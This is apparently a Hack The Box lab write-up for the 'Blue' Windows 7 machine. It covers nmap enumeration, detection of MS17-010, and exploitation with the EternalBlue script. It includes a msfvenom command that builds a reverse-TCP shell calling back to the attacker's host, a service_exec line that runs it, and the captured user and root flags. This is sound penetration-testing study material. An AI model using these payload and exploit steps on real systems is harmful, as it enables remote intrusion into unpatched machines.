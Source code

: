 # Enumerate

## Scan

```
pat@kali:~/Desktop/Cert_Prep/htb/Windows/Blue$ scan 10.10.10.40
==================================
Found ports: 135,139,445,49152,49153,49154,49155,49156,49157
==================================
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-09 17:32 EDT
Nmap scan report for 10.10.10.40
Host is up (0.028s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -16m04s, deviation: 34m38s, median: 3m55s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-06-09T22:37:20+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-06-09T21:37:23
|_  start_date: 2020-06-09T21:35:23

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 82.15 seconds
```

## Enumerate Services

* smb-enum-shares? 

```
pat@kali:~/Desktop/Cert_Prep/htb/Windows/Blue$ nmap --script smb-enum-shares.nse -p445 10.10.10.40
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-09 17:36 EDT
Nmap scan report for 10.10.10.40
Host is up (0.026s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.10.40\ADMIN$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Remote Admin
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.10.40\C$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.10.40\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Anonymous access: READ
|     Current user access: READ/WRITE
|   \\10.10.10.40\Share: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Anonymous access: <none>
|     Current user access: READ
|   \\10.10.10.40\Users: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Anonymous access: <none>
|_    Current user access: READ

Nmap done: 1 IP address (1 host up) scanned in 47.85 seconds
```

* Nothing helpful, vuln? 

```
pat@kali:~/Desktop/Cert_Prep/htb/Windows/Blue$ nmap --script vuln -p445 10.10.10.40
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-09 17:38 EDT
Nmap scan report for 10.10.10.40
Host is up (0.027s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
|_clamav-exec: ERROR: Script execution failed (use -d to debug)

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Nmap done: 1 IP address (1 host up) scanned in 38.11 seconds
```

* Vulnerable to ms17-010 eternalblue

# Access

```
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010) | exploits/windows/remote/42315.py
```

* find that lsarpc seems to work as a named pipe. Had to (maybe?) add user and password, just set as guest and blank
  * Worked with both user and guest and blank passwords 
* https://null-byte.wonderhowto.com/how-to/manually-exploit-eternalblue-windows-server-using-ms17-010-python-exploit-0195414/
* [ ] Not sure a good way without metasploit to test which named pipes might be valid. 
* Saw this in a writeup: Not actually sure if the users it lists are valid users or why this is helpful? 

```
enum4linux -a 10.10.10.40 
```

* Created a local executable to upload and then have the script run. 

```
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.18 LPORT=4444 EXITFUNC=thread -f exe -o 101014184444.exe
```

* The script has a send_file function. Let's just use that to get the file over. 
  * Should have been able to get it to download the file, not sure why that didn't work. 
* Could also have used the run command as:

```
service_exec(conn, r'cmd /c c:\name.exe')
```

Should be able to have the command to download the file but not sure why that doesn't work. 

```
C:\Users>dir user.txt /s
dir user.txt /s
 Volume in drive C has no label.
 Volume Serial Number is A0EF-1911

 Directory of C:\Users\haris\Desktop

21/07/2017  07:54                32 user.txt
               1 File(s)             32 bytes

     Total Files Listed:
               1 File(s)             32 bytes
               0 Dir(s)  15,609,221,120 bytes free

C:\Users>dir root.txt /s
dir root.txt /s
 Volume in drive C has no label.
 Volume Serial Number is A0EF-1911

 Directory of C:\Users\Administrator\Desktop

21/07/2017  07:57                32 root.txt
               1 File(s)             32 bytes

     Total Files Listed:
               1 File(s)             32 bytes
               0 Dir(s)  15,561,097,216 bytes free

C:\Users>type C:\Users\haris\Desktop\user.txt
type C:\Users\haris\Desktop\user.txt
4c546aea7dbee75cbd71de245c8deea9
C:\Users>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
ff548eb71e920ff6c08843ce9df4e717
```

